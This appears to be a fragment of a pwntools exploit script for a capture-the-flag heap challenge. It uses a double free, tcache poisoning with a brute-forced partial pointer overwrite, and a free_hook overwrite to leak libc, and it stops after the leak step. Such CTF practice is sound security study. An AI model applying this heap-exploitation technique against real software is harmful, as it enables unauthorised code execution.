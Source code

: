```py
sla = lambda a, b: io.sendlineafter(a, b)
sl = lambda a: io.sendline(a)
recv = lambda: io.recv()
recvn = lambda a: io.recvn(a)
recvu = lambda a, b=False: io.recvuntil(a, b)

def launch():
    l = launch_local
    # l = launch_remote
    l()

def getb(d, a, b):
    a_ = d.find(a)
    return d[a_+len(a):d.find(b, a_)] # returns stuff between a & b

def alloc(size, data):
    sla(b"exit\n", b"1")
    sleep(speed)
    sl(str(size).encode())
    sleep(speed)
    if size == 0:
        return
    sl(data)
    sleep(speed)

def free():
    sla(b"exit\n", b"2")
    sleep(speed)

def quit():
    sla(b"exit\n", b"3")

exe = ELF(file)
libc = ELF("./libc.so.6")

# exploit goes here

def exploit():
    guess = rnd.randint(0, 0xf)
    print("guess: %#x" % guess)
    sleep(speed)

    alloc(2, b"") # double free 0x20 sized chunk (to later hijack tcache_perthread_struct)
    free()
    free()

    hijack_address = (guess << 12) + 0x50
    alloc(2, p16(hijack_address)) # partial overwrite fd with 4 bit bruteforce
    alloc(2, b"") # unused malloc to set tcache entry = fake fd



    payload = flat([ # prepare tcache_perthread_struct overwrite payload
        exe.sym["stderr"], # 0x20, will use to leak libc
        exe.sym["old_free_hook"], # 0x30, will use to overwrite old_free_hook with puts
        exe.sym["old_free_hook"], # 0x40, will use to overwrite old_free_hook with system
    ])
    alloc(0x18, payload) # overwrite tcache_perthread_struct
    
    alloc(0x28, p64(exe.plt["puts"])[:7]) # overwrite free_hook with puts plt
    alloc(1, b"A")
    free() # leak stderr

```